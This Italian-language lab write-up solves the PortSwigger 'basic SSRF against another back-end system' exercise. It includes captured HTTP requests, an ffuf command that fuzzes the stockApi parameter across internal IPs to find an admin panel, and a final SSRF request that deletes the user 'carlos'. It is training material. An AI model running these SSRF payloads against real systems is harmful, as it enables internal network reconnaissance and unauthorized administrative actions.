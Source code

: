 https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

Non abbiamo delle credenziali.

Verifichiamo la richiesta che corrisponde al menu "View details"

![](_attachment/Pasted%20image%2020250329171005.png)

e successivamente "Check stock"

![](_attachment/Pasted%20image%2020250329171022.png)

```http
POST /product/stock HTTP/2
Host: 0a8a00650496da4d805b8f5900490097.web-security-academy.net
Cookie: session=zeCtYReBJVBFwAlRJR3rgSvVwttPKBbU
Content-Length: 96
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

url decode: `http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1`

proviamo a verificare l'esistenza di `/admin`

Popolo un semplice file di testo con gli ip da `192.168.0.1` a `192.168.0.254`

```bash
joshua@kaligra:~$ for i in $(seq 1 254); do echo $i >> /tmp/ips.txt ; done
joshua@kaligra:~$
```

Salvo la richiesta di cui sopra e immetto la stringa **FUZZ** nel posto giusto:

```http
joshua@kaligra:~$ cat /tmp/req.txt
POST /product/stock HTTP/2
Host: 0a8a00650496da4d805b8f5900490097.web-security-academy.net
Cookie: session=zeCtYReBJVBFwAlRJR3rgSvVwttPKBbU
Content-Length: 49
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

stockApi=http%3A%2F%2F192.168.0.FUZZ%3A8080%2Fadmin
```

uso `ffuf` e scarto tutte le richieste con size=2350

```bash
joshua@kaligra:~$ ffuf --request /tmp/req.txt -w /tmp/ips.txt -fs 2350

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://0a8a00650496da4d805b8f5900490097.web-security-academy.net/product/stock
 :: Wordlist         : FUZZ: /tmp/ips.txt
 :: Header           : Host: 0a8a00650496da4d805b8f5900490097.web-security-academy.net
 :: Header           : Cookie: session=zeCtYReBJVBFwAlRJR3rgSvVwttPKBbU
...
...
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2350
________________________________________________

199                     [Status: 200, Size: 3141, Words: 1368, Lines: 67, Duration: 81ms]
:: Progress: [254/254] :: Job [1/1] :: 86 req/sec :: Duration: [0:00:03] :: Errors: 0 ::

```

Ho trovato l'ip interno `192.168.0.199`

Nel body HTML rileviamo:

```html
                   <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/http://192.168.0.199:8080/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/http://192.168.0.199:8080/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
```

```http
POST /product/stock HTTP/2
Host: 0a8a00650496da4d805b8f5900490097.web-security-academy.net
Cookie: session=zeCtYReBJVBFwAlRJR3rgSvVwttPKBbU
Content-Length: 85
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8a00650496da4d805b8f5900490097.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2F192%2E168%2E0%2E199%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

follow redirection...

![](_attachment/Pasted%20image%2020250329173228.png)


